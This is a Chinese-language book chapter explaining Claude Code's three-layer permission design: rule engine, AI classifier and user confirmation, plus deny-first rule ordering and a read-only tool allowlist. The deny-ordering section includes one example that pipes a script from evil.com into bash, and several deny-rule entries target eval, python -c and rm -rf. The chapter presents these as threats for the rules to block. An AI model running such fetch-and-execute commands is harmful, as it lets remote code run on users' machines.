



# 第 15 章：权限系统的三层决策架构

> "一个能执行任意代码的 AI 代理，最危险的不是代码本身，而是代理对'什么时候应该执行'的判断。规则引擎可以在 1ms 内说'禁止',但它无法理解'用户在数据恢复的上下文中，这条 rm 命令是合理的'。问用户每次都安全但会让系统变成玩具。那么，权限决策如何同时满足速度、准确性和可用性？Claude Code 的答案是：**不用一个函数决定，用三个**。"

## 15.1 为什么三个决策层而不是一个万能函数？

一个直观的想法：写一个超级聪明的权限检查函数，能够快速识别规则，又能理解上下文，还能在必要时询问用户。但这样的函数存在吗？

**答案是不存在**。这是因为三个能力所需的资源互相矛盾。

### 第一层：定义三层决策的完整体系

在 `src/utils/permissions/permissions.ts` 中，权限检查函数标注了逐步的决策节点（第 1079 行附近）：

```typescript
// src/utils/permissions/permissions.ts:59
const classifierDecisionModule = feature('TRANSCRIPT_CLASSIFIER')
  ? (require('./classifierDecision.ts') as typeof import('./classifierDecision.js'))
  : null
```

**源码参考：** `src/utils/permissions/permissions.ts:59`

这个导入语句透露了系统的架构：**三层并非都强制存在**。AI 分类器层（`classifierDecisionModule`）是可选的——通过 feature flag 控制。但另外两层呢？

让我们列出三层的完整体系：

| 层级 | 名称 | 延迟 | 典型输入 | 典型输出 | 特性 |
|------|------|------|---------|---------|------|
| **第 1 层** | 规则引擎（Rule Engine） | <1ms | 工具名 + 规则集 | allow/deny/ask/passthrough | 同步，确定性，极快 |
| **第 2 层** | AI 分类器（Transcript Classifier） | ~500ms | 命令 + 对话历史 + 环境 | allow/deny/soft_deny | 异步，上下文感知，中速 |
| **第 3 层** | 用户交互（User Interaction） | 秒级 | 权限请求 + 上下文说明 | 用户选择（allow/deny/永久授权） | 同步等待，人类智慧，最慢 |

### 第二层：设计意图——为什么需要三层而不是二层或四层

三层的存在回答了一个关键问题：**每一层解决什么问题，而其他层无法解决？**

**规则引擎为什么不能被分类器替代？**

假设我们只用 AI 分类器（去掉规则引擎层）：
- 用户配置了"永远允许 Bash(git *)"
- 系统把这条请求交给分类器
- 分类器 LLM 调用：~500ms，~6000 tokens，API 成本 $0.0009
- 每 100 个请求：45 秒延迟，$0.09 成本

**结果**：用户体验糟糕。对于那些"用户已经明确授权的操作"，应该**立即执行**，而不是等 500ms。

**AI 分类器为什么不能被用户交互替代？**

假设我们只有规则引擎和用户交互（去掉分类器）：
- 用户输入一条模糊的命令：`curl https://some-url.com`
- 规则引擎没有匹配（太具体了，无法用规则完全覆盖）
- 系统直接问用户："允许吗？"
- 用户必须每次都决策

**结果**：用户被烦死。对于那些"有明确上下文但无显式规则"的操作，应该**让 AI 理解**，而不是把所有困难的决策都推给用户。

**权衡**：三层的成本

| 维度 | 只有规则 | 只有用户交互 | 三层体系 |
|------|--------|-----------|--------|
| 速度（明确授权的操作） | ✓ <1ms | ✗ 秒级 | ✓ <1ms |
| 准确性（模糊操作） | ✗ 靠不住 | ✓ 人类判断 | ✓ AI 理解 |
| 用户体验 | ✗ 受规则限制 | ✓ 最终确认 | ✓ 精确和灵活 |
| 系统成本 | 低 | 低 | 中等 |

**Claude Code 选择了三层**，理由是：**性能、准确性、用户体验三者都重要，单一层无法全部满足，多层协作是唯一的解决方案**。

### 第三层：实际案例与权衡

**场景**：用户输入 `rm -rf /var/log/old_logs`

**规则引擎层**（第一个检查点）：
```
规则检查：
  • 全局 deny: "rm -rf *"? → 否
  • 全局 ask: "rm *"? → 是
  → 返回 ask（但在沙箱中可自动允许则继续）
  
结果：ask（需要确认）或 passthrough（继续）
```

**AI 分类器层**（规则引擎无法确定时）：
```
输入分类器：
  • 命令：rm -rf /var/log/old_logs
  • 上下文：用户说"清理过期的日志文件"
  • 环境：本地开发机
  
LLM 判断：
  • 目标是日志目录（非系统关键）
  • 用户明确说了"清理"
  • 这条命令合理
  
结果：allow
```

**与"只用规则"的对比**：
- 规则引擎看到 "rm -rf *" 会问用户
- 用户每次执行清理脚本都要确认
- 用户体验很差

**与"只用用户交互"的对比**：
- 每个 rm 命令都问用户
- 用户被打扰频繁
- 用户最后会说"随便允许吧"（安全等于零）

**核心权衡**：**三层让系统在确定情况下快速决策，在模糊情况下智能理解，在复杂情况下尊重用户**。

## 15.2 为什么权限决策需要四种结果而不是"允许/拒绝"二元？

常见的权限系统用两个结果：`allow` 和 `deny`。但 Claude Code 用了四个。为什么？

### 第一层：定义四种结果类型

在 `src/types/permissions.ts:174-254` 中定义了权限结果的类型体系：

```typescript
// src/types/permissions.ts:174, 199, 231, 254
type PermissionAllowDecision = { behavior: 'allow'; ... }
type PermissionAskDecision = { behavior: 'ask'; ... }
type PermissionDenyDecision = { behavior: 'deny'; ... }
type PermissionPassthroughDecision = { behavior: 'passthrough'; ... }
```

**源码参考：** `src/types/permissions.ts:174-254`

四种结果的语义：

| 结果 | 含义 | 后续动作 | 示例场景 |
|------|------|---------|---------|
| `allow` | 此层明确放行 | ✅ 执行工具 | 规则明确允许 `Bash(git *)` 且用户要求 git clone |
| `deny` | 此层明确拒绝 | ❌ 停止，报错 | 黑名单禁止 `Bash(eval)` |
| `ask` | 此层需要用户判断 | ❓ 弹出对话框 | 模糊命令需要用户确认 |
| `passthrough` | 此层无意见，交给下一层 | ➡️ 继续往下 | 规则引擎没有匹配，交给分类器 |

### 第二层：设计意图——为什么"passthrough"这个中间态很关键

二元系统的困境（只有 allow/deny）：

```
规则引擎遇到一个命令：curl https://internal.example.com

情况：没有任何规则匹配这个特定 URL

决策困境：
  • 返回 allow？太宽松（也许这个 URL 不应该访问）
  • 返回 deny？太保守（也许用户信任这个 URL）
  • 返回 ask？正确，但没有更多上下文，用户会困惑
```

**有 passthrough 后**：
```
规则引擎：我不知道这个 URL 是否应该被访问
          → 返回 passthrough

分类器（下一层）：
  • 读对话历史："用户说要获取配置数据"
  • 分析 URL："这个 internal.example.com 看起来是内网 API"
  • 判断：在内网环境中合理
  → 返回 allow
```

**核心差异**：`passthrough` 让决策链能够**询问下一层的意见**，而不是每层都被迫做出"确定"的答案。

### 第三层：实际案例与权衡

**`decisionReason` 字段**的作用（`src/types/permissions.ts:271`）：

```typescript
// src/types/permissions.ts:271
type PermissionResult = {
  behavior: 'allow' | 'deny' | 'ask' | 'passthrough'
  decisionReason?: {
    // 为什么做出这个决策？
    type: 'rule' | 'mode' | 'safetyCheck' | 'asyncAgent' | ...
    details: string  // 人类可读的解释
  }
}
```

**源码参考：** `src/types/permissions.ts:271`

当用户看到"权限被拒绝"时：
- **没有 decisionReason**："不行"（用户困惑，不知道怎么改）
- **有 decisionReason**："rule: 全局黑名单禁止 eval。如需修改，请联系管理员。"（用户明确）

**权衡**：四态 vs 二态

| 维度 | 二态（allow/deny） | 四态（+ask/passthrough） |
|------|-----------------|--------------------------|
| 实现复杂度 | 低 | 高 |
| 决策精度 | 低（每层猜测） | 高（信息完整传递） |
| 用户体验 | 差（被迫决策） | 好（明确反馈） |
| 可调试性 | 低（不知道为什么） | 高（decisionReason） |

**Claude Code 选择了四态**，理由是：**多层决策必须能够"传递不确定性"和"请求建议"，四态系统提供了清晰的语义**。

## 15.3 规则引擎的精确匹配顺序为什么按这个顺序执行？

规则引擎不做复杂推理，但它的执行顺序体现了"安全优先"的原则。

### 第一层：定义检查顺序

从 `src/utils/permissions/permissions.ts:1079` 开始的权限检查有明确的步骤顺序：

```
步骤 1a. 整个工具有 deny 规则？→ 立即 deny
步骤 1b. 整个工具有 ask 规则？→ 检查沙箱，可能 ask
步骤 1c. 调用工具的 checkPermissions（处理子命令规则）
步骤 1d. 工具返回 deny？→ 立即 deny
步骤 1e. 工具返回 ask？→ ask
步骤 1f. 工具返回 passthrough？→ 继续到分类器
```

**源码参考：** `src/utils/permissions/permissions.ts:1079`（步骤 1a），`src/utils/permissions/permissions.ts:287,297`（getDenyRuleForTool、getAskRuleForTool）

### 第二层：设计意图——为什么先检查 deny 再检查 ask

假设顺序反过来（先 ask 后 deny）：

```
步骤顺序反转：
  1. 有 ask 规则？→ 问用户
  2. 有 deny 规则？→ 拒绝

场景：
  • 全局 ask 规则："Bash(curl *)"？
  • 黑名单 deny 规则："Bash(eval)"
  • 用户输入："Bash(eval)"
  
结果：
    1. 检查 ask：Bash(curl *) 不匹配 eval → 继续
    2. 检查 deny：eval 在黑名单中 → deny
    
这看起来还好。但如果……
  • 用户输入："Bash(curl https://evil.com/shell.sh | bash)"
  • 这有 ask 规则（curl）但也违反安全原则
    
    1. 检查 ask："要运行这个吗？" → 问用户
    2. 用户说"好吧，允许" → 执行（灾难！）
```

**正确的顺序**（先 deny）：

```
先拒绝黑名单 → 再询问 ask 规则 → 再让工具检查

这样保证：绝对禁止的操作永远不会问用户"要不要执行"
```

### 第三层：实际案例与权衡

**场景**：公司想要强制禁止 `python -c`（任意代码执行）

```
配置：
  • 黑名单 deny: "Bash(python:*)"
  • 用户本地 ask: "Bash(python *)"（想随时使用 Python）

执行顺序（deny 优先）：
  用户输入：python -c "print(1)"
  → 步骤 1a: 检查 deny 规则
  → 匹配"Bash(python:*)"
  → 返回 deny（最终！）
  
结果：用户无法执行，即使他配置了 ask 规则
```

**反向顺序的问题**：
```
执行顺序（ask 优先，错误）：
  用户输入：python -c "print(1)"
  → 步骤 1a: 检查 ask 规则
  → 匹配"Bash(python *)"
  → 问用户"允许吗？"
  → 用户说"允许"
  → 执行代码（违反企业管控！）
```

**权衡**：deny 优先 vs ask 优先

| 维度 | Deny 优先 | Ask 优先 |
|------|---------|---------|
| 企业管控能力 | ✓ 强（黑名单无法被绕过） | ✗ 弱（用户可确认 ask 规则） |
| 用户自主性 | ✗ 低（企业能禁止一切） | ✓ 高（用户能放行一切） |
| 安全性 | ✓ 高（保守） | ✗ 低（危险） |
| 信任链 | ✓ 清晰（企业 > 用户） | ✗ 模糊 |

**Claude Code 选择了 deny 优先**，理由是：**企业对员工工作机器有安全责任，必须能强制执行安全策略。deny 规则是权力最大的**。

## 15.4 分类器层为何需要白名单而不是覆盖所有工具？

并非所有工具都需要 AI 分类器的智能判断。有些工具已经足够安全了。

### 第一层：定义白名单的概念

在 `src/utils/permissions/permissions.ts:660` 附近有一个检查：

```typescript
// src/utils/permissions/permissions.ts:660
if (classifierDecisionModule?.isAutoModeAllowlistedTool(tool.name)) {
  // 工具在白名单中，直接跳过分类器
  return { behavior: 'allow', decisionReason: { type: 'autoModeAllowlist' } }
}
```

**源码参考：** `src/utils/permissions/permissions.ts:660`

白名单中的工具包括什么？典型的例子：
- `ReadFile`：读取文件（不会破坏任何东西）
- `Grep`：搜索文本（非破坏性）
- `ListDirectory`：列出文件夹（信息查询，非破坏性）

### 第二层：设计意图——为什么不是"所有工具都交给分类器"

假设所有工具都要经过分类器：

```
用户执行：ReadFile("README.md")

权限检查流程：
  1. 规则引擎：无 deny/ask 规则 → passthrough
  2. AI 分类器：
     • 构建系统提示：~2000 tokens
     • 输入：文件路径、对话历史 ~4000 tokens
     • 调用 LLM：~500ms，成本 ~$0.0009
     • 返回：allow
     
结果：为了判断"读一个 README 文件是否安全"，花了 500ms 和 $0.0009
      这完全不合理！
```

**有白名单后**：

```
用户执行：ReadFile("README.md")

权限检查流程：
  1. 规则引擎：无规则 → passthrough
  2. 白名单检查：ReadFile 在白名单中 → 直接 allow
     
结果：<1ms，零成本
```

### 第三层：实际案例与权衡

**白名单包含的工具类型**（根据安全特性）：

| 工具类型 | 示例 | 为什么能白名单 |
|---------|------|-------------|
| **只读工具** | ReadFile、Grep、Ls | 无法修改系统状态 |
| **信息查询** | GetEnvVars、WhoAmI | 查询信息，无副作用 |
| **开发工具（非执行）** | ParseJSON、ValidateYAML | 数据变换，无执行风险 |

**不能白名单的工具**：

| 工具类型 | 示例 | 为什么需要分类器 |
|---------|------|-------------|
| **代码执行** | Bash、PowerShell、Python | 任意代码执行 |
| **修改文件** | WriteFile、DeleteFile | 可能破坏系统 |
| **网络访问** | Curl、HttpFetch | 可能访问内网 |

**权衡**：白名单覆盖范围 vs 分类器成本

| 维度 | 白名单窄（只读工具） | 白名单广（所有无害工具） |
|------|------------------|----------------------|
| 分类器调用频率 | 高（更多工具需判断） | 低（只读类工具不需） |
| 系统成本 | 高 | 低 |
| 安全性 | ✓ 谨慎 | ✓ 足够（只读本身无风险） |
| 用户体验 | ✗ 慢（常见操作也要等） | ✓ 快（只读秒级执行） |

**Claude Code 的做法**：只读工具白名单，其他工具都经过分类器。理由是：**成本与安全的平衡——只读工具没有破坏能力，白名单对它们是安全的，能大幅降低常见操作的延迟**。

---

## 模式提炼

### 模式 1：性能梯级（Performance Tiering）

**解决的问题**：决策需要快速（高频操作）又需要准确（复杂场景），但快速方案不够准确，准确方案不够快。

**核心做法**：按延迟和复杂度排列多层决策。快速层处理确定性情况，遇到不确定就返回 `passthrough` 交给下一层。每层只对自己有把握的情况发言。

**前置条件**：决策场景可分为"确定性"和"模糊性"；有多个可用的决策引擎（规则、AI、用户）；系统可以容忍中等延迟。

**源码证据**：`src/utils/permissions/permissions.ts:59` — 分类器层是可选的（feature flag），体现了梯级的灵活组合。

**适用范围**：任何既需要速度又需要准确的决策系统（如审核、推荐、诊断）。

---

### 模式 2：四态决策传递（Four-State Decision Propagation）

**解决的问题**：二元决策（是/否）迫使每层都做出承诺答案，无法表达"我不确定，请咨询下一层"的语义。

**核心做法**：四种结果类型（allow/deny/ask/passthrough），其中 `passthrough` 表达"我无法判断，交给下一层"。每层根据自己的信息充分程度选择结果类型。

**前置条件**：有多层决策系统，层间需要传递"继续决策"信号。

**源码证据**：`src/types/permissions.ts:254` — `PermissionPassthroughDecision` 类型的存在。

**适用范围**：多层协作的判断系统。

---

### 模式 3：安全优先的检查顺序（Security-First Ordering）

**解决的问题**：当多个规则可能适用时，需要确保最严格的规则（拒绝）总是被优先考虑，避免宽松规则覆盖严格规则。

**核心做法**：在决策链中，deny 规则始终在 ask 规则之前检查。这建立了一个明确的权力层级：企业管控 > 用户自主。

**前置条件**：有多个来源的规则（企业、用户、默认），且不同来源有不同的权力等级。

**源码证据**：`src/utils/permissions/permissions.ts:1079` — 步骤 1a 先检查 deny 规则。

**适用范围**：企业级权限系统，需要强制执行安全策略。

---

### 模式 4：能力白名单（Capability Allowlisting）

**解决的问题**：某些操作本质上是安全的（如只读），但仍然需要经过判断层，浪费系统资源。

**核心做法**：维护一个"无需进一步判断"的操作白名单。这些操作直接通过，绕过判断层。白名单标准是"该操作无论如何都不会造成伤害"。

**前置条件**：有明确的"无害操作"类别；系统有多个判断层，某些层的成本较高。

**源码证据**：`src/utils/permissions/permissions.ts:660` — `isAutoModeAllowlistedTool` 检查。

**适用范围**：资源受限的系统，需要优化高频操作的性能。

---


## 架构图

**图 15-1：三层权限决策架构**



**图 15-2：权限记忆的范围与优先级**



**图 15-3：TRANSCRIPT_CLASSIFIER 的编译期门控**




## 延伸：PermissionResult 的四种决策结果

权限检查的返回值不是简单的 allow/deny，而是四种不同语义的 `PermissionResult`（`src/utils/permissions/PermissionResult.ts`，类型定义在 `src/types/permissions.ts`）：

```typescript
// src/types/permissions.ts（通过 PermissionResult.ts 重导出）
type PermissionResult = {
  behavior: 'allow' | 'deny' | 'ask' | 'passthrough'
  // ...其他字段
}
```

**四种结果的语义**：

| 结果 | 语义 | 触发动作 |
|------|------|---------|
| `allow` | 明确允许，不询问 | 直接执行工具 |
| `deny` | 明确拒绝，不询问 | 返回错误，不执行 |
| `ask` | 需要用户确认 | 展示权限对话框，等待用户 |
| `passthrough` | 当前层不决定，传递给下一层 | 继续检查下一层 |

`passthrough` 是三层决策架构的关键——规则引擎未命中时返回 `passthrough`，交由 AI 分类器处理；分类器置信度不足时也返回 `passthrough`，最终交由用户确认。每一层只处理自己有把握的情况（`src/utils/permissions/PermissionResult.ts`）。


## 踩坑

### ❌ 让规则引擎处理需要上下文理解的权限决策

```typescript
// ❌ 错误：规则引擎无法理解"数据恢复场景下 rm 是合理的"
if (command.includes('rm -rf')) return 'deny'  // 过于简单粗暴
```

规则引擎（第 1 层）只做模式匹配（`src/utils/permissions/permissions.ts:59`），无法理解上下文。对于需要理解意图的决策，应该升级到 AI 分类器层（第 2 层）。

### ❌ 请求用户对每个操作都手动批准，造成"批准疲劳"

每次文件读取都弹出确认框，用户很快开始无脑点 Yes——这比自动批准更危险。合理的权限系统应该自动批准低风险操作，只对高风险操作（写入、执行、网络请求）请求确认。

### ❌ 记忆权限时没有设置过期策略

"总是允许读 ./src 目录" 这条记忆在新会话中仍然有效，但如果用户切换了项目，这个授权就不再合适。权限记忆应该绑定到会话或项目，而不是全局有效。


## 你能做什么

- **用多层决策替代单一复杂引擎**。当你需要既快又准的判断时，不要试图在一个地方处理所有情况。分为"确定性快速层"和"模糊性智能层"，让它们协作。

- **让每层只对自己有把握的情况发言**。引入 `passthrough` 这样的中间态，允许决策层说"我不知道，问下一层"。这比每层都被迫猜测要好得多。

- **确保严格的规则总是优先**。如果有多个权力来源（企业、用户、默认），让最严格的规则（deny）始终最先检查。这建立了一个明确的信任链。

- **对已知安全的操作白名单**。不要让所有请求都经过昂贵的判断。如果你确信某类操作无害，直接放行，节省资源给真正需要判断的操作。

---

## 向后链接

权限决策的三层架构为后续章节奠定了基础。第 16 章将深入第二层——AI 分类器的实现细节，包括如何用 LLM 判断 LLM 的操作安全性，以及如何避免元循环递归。第 17 章讨论第一层（规则引擎）的规则数据模型和优先级协调。第 18 章介绍 Hooks 系统如何在这个权限决策框架中注入自定义逻辑。
